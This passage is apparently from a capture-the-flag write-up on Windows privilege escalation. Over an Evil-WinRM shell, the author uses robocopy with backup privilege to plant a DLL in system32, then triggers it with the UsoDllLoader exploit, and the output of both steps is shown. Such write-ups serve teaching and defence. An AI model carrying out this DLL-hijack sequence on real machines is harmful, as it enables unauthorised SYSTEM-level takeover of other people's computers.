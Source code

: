 
Now we will use robocopy to copy `windowscoredeviceinfo.dll` from `C:\temp\dll\` inside `c:\windows\system32`:

```shell
*Evil-WinRM* PS C:\temp> robocopy /b dll c:\windows\system32 windowscoredeviceinfo.dll

-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Monday, October 5, 2020 5:37:29 PM
   Source : C:\temp\dll\
     Dest : c:\windows\system32\

    Files : windowscoredeviceinfo.dll

  Options : *.* /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------

                           1    C:\temp\system32\
        *EXTRA Dir        -1    c:\windows\system32\0409\
        *EXTRA Dir        -1    c:\windows\system32\ADDSDeployment_Internal\
        *EXTRA Dir        -1    c:\windows\system32\adprep\
        *EXTRA Dir        -1    c:\windows\system32\AdvancedInstallers\
        *EXTRA Dir        -1    c:\windows\system32\am-et\

[..SNIP..]

        *EXTRA File             143360        xwtpw32.dll
        *EXTRA File              79872        zipcontainer.dll
        *EXTRA File             429568        zipfldr.dll
        *EXTRA File              30720        ztrace_maps.dll
          New File               91702        windowscoredeviceinfo.dll
  0%
 71%
100%
```
As we can see a New File `windowscoredeviceinfo.dll` has been coping inside `c:\windows\system32\`

#### Trigger DLL

Trigger the DLL using UsoDllLoader exploit, we can ignore the error messages as the exploit was originally build to generate a bind shell:

```shell
.*Evil-WinRM* PS C:\temp> .\UsoDllLoader.exe
[*] Using UpdateOrchestrator->StartScan()
    |__ Creating instance of 'UpdateSessionOrchestrator'... Done.
    |__ Creating a new Update Session... Done.
    |__ Calling 'StartScan'... Done.
[-] Unable to connect to server!
[*] Retrying with UpdateOrchestrator->StartInteractiveScan()
    |__ Creating instance of 'UpdateSessionOrchestrator'... Done.
    |__ Creating a new Update Session... Done.
    |__ Calling 'StartInteractiveScan'... Done.
[-] Unable to connect to server!
[*] Retrying with UpdateOrchestrator->StartDownload()
    |__ Creating instance of 'UpdateSessionOrchestrator'... Done.
    |__ Creating a new Update Session... Done.
    |__ Calling 'StartInteractiveScan'... Done.
[-] Unable to connect to server!
[-] Exploit failed.
```
#### Local Administrator